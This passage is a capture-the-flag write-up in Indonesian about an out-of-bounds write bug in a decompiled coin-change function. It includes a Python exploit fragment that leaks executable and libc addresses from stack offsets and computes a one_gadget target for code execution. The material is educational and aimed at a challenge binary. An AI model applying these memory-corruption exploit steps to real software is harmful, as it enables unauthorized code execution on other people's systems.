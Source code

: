 calculate_ways:
```c
memset(param_2,0,(ulong)param_3);
*param_2 = 1;
printf("Insert desired value: ");
value = read_int();
i = 0;
while (i < param_4) {
    j = *(uint *)(param_1 + (ulong)i * 4);
    while (j <= value) {
        param_2[j] = param_2[j - *(int *)(param_1 + (ulong)i * 4)] + param_2[j];
        j = j + 1;
    }
    i = i + 1;
}
printf("We can change %d with %d ways\n",(ulong)value,(ulong)(uint)param_2[value]);
return;
```

Maksimal jumlah koin adalah 300, yaitu jumlah yang tepat ((1200)/4 == 300). Jadi tidak ada overflow pada bagian itu. Akan tetapi, yang menarik adalah fungsi _calculate\_ways_. Tidak terdapat pengecekan batas jadi kita dapat melakukan kalkulasi pada angka berapapun. Hasilnya akan disimpan di param_2(array yang isinya hasil) + (jumlah yang dicari), maka kita bisa menulis diluar batas array.

Dengan OOB ini, kita bisa mendapatkan leak area _executable_, libc, dan menulis nilai dari _return address_ fungsi _handler_.

### Leak
Pada soal ini, saya menggunakan [one_gadget](https://github.com/david942j/one_gadget) untuk mendapatkan RCE. Ternyata pada soal sebelumnya saya ada offset yang salah. Yaudahlah ¯\\\_(ツ)\_/¯.

Untuk mendapatkan leak area _executable_, saya cuma jalanin fungsi _calculate\_ways_ dua kali, pada offset 3006 dan 3007. Nilai itu adalah nilai dari _return address_. Karena seharusnya nilainya merupakan alamat di fungsi _main_, nilai tersebut merupakan nilai alamat di area _executable_.

Leak area _executable_ sebenarnya tidak terlalu penting jika ingin langsung lompat ke libc one_gadget, tapi saya dapatin aja. Leak libc dapat didapatkan dengan cara yang sama pada offset 3010 dan 3011.

```python
    compute(3011)
    p.recvuntil("with ")
    l = struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')

    compute(3010)
    p.recvuntil("with ")
    l += struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')
    l = int(l, 16)
    print hex(l)

    libc_base = l - 0x2409b
    one_gadget = libc_base + 0x50186


    compute(3007)
    p.recvuntil("with ")
    l = struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')

    compute(3006)
    p.recvuntil("with ")
    l += struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')
    l = int(l, 16)
    print hex(l)

    exec_leak = l
```